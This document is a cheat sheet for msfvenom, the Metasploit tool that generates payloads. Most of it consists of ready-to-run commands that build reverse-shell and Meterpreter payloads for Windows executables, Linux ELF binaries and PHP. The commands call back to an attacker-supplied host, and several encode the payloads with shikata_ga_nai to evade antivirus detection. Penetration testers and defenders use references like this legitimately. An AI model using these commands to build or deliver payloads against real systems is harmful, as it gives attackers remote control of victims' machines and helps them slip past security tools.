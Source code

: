 ## **MSFvenom Cheat Sheet**

**Description:**
`msfvenom` is a powerful command-line utility within the Metasploit Framework. It's used to generate and encode payloads. Essentially, it combines the functionalities of `msfpayload` (for generating payloads) and `msfencode` (for encoding payloads to bypass security measures like antivirus software). `msfvenom` allows you to create various types of malicious code, known as "payloads," in different formats (e.g., EXE, DLL, raw shellcode) and for various architectures and operating systems.

**Key Features:**
* **Payload Generation:** Creates malicious code (payloads) that perform actions on a target system, such as opening a reverse shell or Meterpreter session.
* **Encoding:** Obfuscates payloads to evade detection by antivirus software and intrusion detection systems (IDS).
* **Format Flexibility:** Supports various output formats for generated payloads (e.g., Windows executables, Linux ELF binaries, raw shellcode, scripting languages).
* **Architecture Support:** Generates payloads for different architectures (x86, x64, ARM, etc.).

**Common `msfvenom` Commands:**

1.  **List Payloads:**
    ```bash
    msfvenom -l payloads
    ```
    *Lists all available payloads.*

2.  **List Encoders:**
    ```bash
    msfvenom -l encoders
    ```
    *Lists all available encoders.*

3.  **Generate a Windows Reverse TCP Meterpreter Payload (EXE):**
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o payload.exe
    ```
    * `-p`: Specifies the payload to use.*
    * `LHOST`: Your local IP address for the reverse connection.*
    * `LPORT`: Your local port for the reverse connection.*
    * `-f`: Specifies the output format (e.g., `exe`, `dll`, `raw`, `elf`).*
    * `-o`: Specifies the output file name.*

4.  **Generate a Linux Reverse TCP Shell Payload (ELF):**
    ```bash
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf -o payload.elf
    ```

5.  **Generate a PHP Reverse Shell:**
    ```bash
    msfvenom -p php/reverse_php LHOST=<Your_IP> LPORT=<Your_Port> -f raw -o shell.php
    ```

6.  **Generate a Meterpreter Payload with Encoding (multiple iterations):**
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -e x86/shikata_ga_nai -i 10 -o encoded_payload.exe
    ```
    * `-e`: Specifies the encoder to use.*
    * `-i`: Number of encoding iterations.*
    * `x86/shikata_ga_nai`: A common and effective encoder.*

7.  **Exclude Bad Characters:**
    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f raw -b '\x00\x0a\x0d' -o shellcode.bin
    ```
    * `-b`: Specifies bad characters to exclude from the payload (e.g., null byte `\x00`, newline `\x0a`, carriage return `\x0d`). Useful for avoiding breaking shellcode in certain contexts.*

8.  **Generate a Payload for a Specific Architecture and Platform:**
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o payload_x86.exe
    ```
    * `-a`: Specifies the architecture (e.g., `x86`, `x64`).*
    * `--platform`: Specifies the operating system platform (e.g., `windows`, `linux`, `osx`).*